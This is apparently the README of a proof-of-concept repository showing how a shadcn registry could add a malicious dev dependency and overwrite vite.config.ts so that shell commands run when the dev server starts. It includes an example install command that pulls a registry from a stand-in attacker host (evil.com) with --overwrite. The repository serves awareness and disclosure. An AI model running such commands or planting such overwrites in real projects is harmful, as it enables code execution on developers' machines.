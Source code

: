 # shadcn-registry-injection-demo

> **Proof of Concept:** Registry Injection Attack targeting the `shadcn` component ecosystem  
> **Educational Purpose Only**

---


[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/dteGNxAe5Vc/0.jpg)](https://www.youtube.com/watch?v=dteGNxAe5Vc)

## DEMO: [https://shadcn-poc.surge.sh](https://shadcn-poc.surge.sh)


## ⚠️ Disclaimer

This repository is created solely for educational and awareness purposes to demonstrate how a registry injection attack could compromise projects by injecting malicious code through dependencies and configuration files.  
**Do NOT use this code for any unauthorized, harmful, or illegal activities.**

---

## What is a Registry Injection Attack?

A Registry Injection Attack involves publishing or injecting malicious packages into public or private package registries to trick developers into installing compromised dependencies or components. Attackers exploit trust in package names, registries, or installation commands to gain unauthorized access, steal data, or execute malicious code silently.

---

## About This Demo and the shadcn Vulnerability

Shadcn registries let you install UI components quickly, but they can also include **dev dependencies**, **overwrite configuration files**, and **silently inject malicious code** into your project.

### How the Attack Works

- A `registry.json` file defines components, dependencies, and even files to overwrite.
- The attacker includes a malicious dev dependency, such as `vite-plugin-run`, which can execute arbitrary shell commands when your development server starts.
- The attacker overwrites critical config files like `vite.config.ts` to inject code that runs commands automatically — without any warning or prompt.
- For example, an attacker can run:

  ```bash
  npx shadcn@latest add https://evil.com/registry.json --overwrite
  ```
